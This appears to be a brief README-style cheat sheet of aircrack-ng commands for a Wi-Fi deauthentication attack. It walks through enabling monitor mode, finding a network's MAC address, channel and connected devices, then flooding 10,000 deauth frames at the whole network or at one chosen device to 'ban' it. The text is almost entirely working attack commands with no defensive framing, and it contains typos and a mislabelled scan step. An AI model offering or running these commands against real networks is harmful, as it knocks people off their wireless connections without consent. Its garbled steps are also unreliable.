 wlan0 or the interface you have
/usr/sbin/airmon-ng/

sudo airmon-ng check kil
//kill conflicts
sudo airmon-ng start wlan0
//Start monitor mode

sudo airmon-ng wlan0mon 
//Reachable stations and network mac

airodump-ng --bssid 'network mac' --channel 'channel' wlan0
/// View conmected device mac 
/// Identify network channel

aireplay-ng --deauth 10000 -a 'network mac' wlan0
///Because no channel here
/// Send deauth (codex) to broadcast

##############
Ban
aireplay-ng --deauth 10000 -a 'network mac' -c 'device mac'  
